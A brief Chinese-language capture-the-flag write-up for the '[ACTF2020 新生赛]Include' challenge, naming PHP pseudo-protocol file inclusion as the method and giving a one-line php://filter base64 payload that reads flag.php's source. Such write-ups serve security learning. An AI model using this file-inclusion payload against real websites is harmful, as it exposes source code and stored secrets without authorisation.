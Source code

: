 # \[ACTF2020 新生赛]Include

## \[ACTF2020 新生赛]Include

## wp

PHP伪协议文件包含读取源码

`?file=php://filter/read=convert.base64-encode/resource=flag.php`
